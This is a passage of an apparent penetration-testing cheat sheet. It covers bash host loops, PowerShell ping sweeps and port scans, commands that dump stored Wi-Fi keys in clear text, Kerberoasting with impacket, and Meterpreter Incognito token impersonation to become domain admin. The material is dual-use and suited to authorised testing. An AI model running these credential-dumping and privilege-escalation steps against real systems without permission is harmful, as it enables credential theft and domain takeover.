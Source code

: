     - Emailing a file to yourself
    - Use caution with third party software (Slack, Dropbox, etc.)
        - Don't forget we are handling sensitive information!
        - Cloud storage (besides O365) may not be in scope 
    - NEVER use Gist, Pastebin, etc. to transfer client data. This is made public to the internet!

## Basic Bash Loops
- Create a host list where each line is an IP address ending 1 - 254
    - `for octet in {1..254}; do echo 192.168.1.$octet >> ~/Desktop/HostList.txt; done`
- Loop through a host list and run a certain tool
    - `for ip in $(cat ~/Desktop/HostList.txt); do nslookup $ip; done`

## PowerShell "Living off the Land"
- Ping sweep
    - `1..255 | % {ping -n 1 10.10.10.$_ | sls ttl}`
- Port scan
    - `1..1024 | % {echo "Testing port $_"; echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "Port $_ is open" } 2>$null`
- Check for stored wireless PSKs
    - Method 1
        ```
        (netsh wlan show profiles) `
            | Select-String “\:(.+)$” `
            | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} `
            | %{(netsh wlan show profile name=”$name” key=clear)} `
            | Select-String “Key Content\W+\:(.+)$” `
            | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} `
            | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} `
            | Format-Table -AutoSize
        ```
    - Method 2
        - `netsh wlan export profile key=clear`
        - Review the output .xml files, PSK is in "keyMaterial" tag
## Kerberoasting
- Use impacket's GetUserSPNs to query target domain for SPNs that are running under a user account
    - `./GetUserSPNs.py example.local/username:password -outputfile hashes.kerberoast`

## Incognito
- Must be local admin. Impersonate a user via their token if they have an active session on the machine you are on
- Used via incognito.exe or Incognito Meterpreter add-on
- In a Meterpreter session:
    - `use incognito` - Load the module
    - `list_tokens -u` - List available tokens
    - `impersonate_token DOMAIN\\DomainAdmin_DA` - Impersonate a user. Usually needs "Delegation Token"
    - `shell` - Drop into a shell, run `whoami` to see you are now domain admin
- Notes
    - If you need to "hunt" a Domain Admin active sessions across multiple compromised machines
    - Metasploit: "auxiliary/scanner/smb/smb_enumusers_domain" 
    - Incognito: "find_tokens.exe"
- https://akimbocore.com/article/privilege-escalation-with-incognito/
